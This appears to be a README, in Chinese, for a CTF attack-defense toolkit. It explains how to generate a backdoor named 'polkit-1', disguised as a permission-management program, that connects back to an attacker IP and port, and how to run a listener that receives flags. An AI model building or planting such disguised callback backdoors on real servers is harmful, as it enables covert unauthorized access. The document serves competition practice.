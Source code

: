 # 欢迎使用AWD工具箱

由ZLL开发，专打比赛用

### 安装

环境要求：linux内核，使用python3.8及以上版本，不需要安装额外的库

### 启动

使用以下命令激活程序

```shellsession
python3 main.py
```

正确运行后，会显示

```shellsession
Welcome to AWD_toolkits.
Made by VioLina


Enter the corresponding number to use the function:
1. Activate port handler
2. Generate Backdoor program
3. Generate Backdoor script
4. Exit
```

### 生成后门程序

使用功能2

输入端口号（此处示例为1111）

输入回连ip地址（此处示例为111.111.111.111）

```shellsession
Enter the corresponding number to use the function:
1. Activate port handler
2. Generate Backdoor program
3. Generate Backdoor script
4. Exit

2
Please input port number:1111
Please input ip address(xxx.xxx.xxx.xxx):111.111.111.111
```

而后会在目录下生成名为polkit-1的后门程序（假装是权限管理程序）

### 监听端口获取flag

将后门程序上传至目标服务器并运行，而后在攻击机上开启功能1，这样就会自动监听端口了

```shellsession

Enter the corresponding number to use the function:
1. Activate port handler
2. Generate Backdoor program
3. Generate Backdoor script
4. Exit

1
Please input port number:1111
Listening on 0.0.0.0:1111...
Received: flag{test1}

```
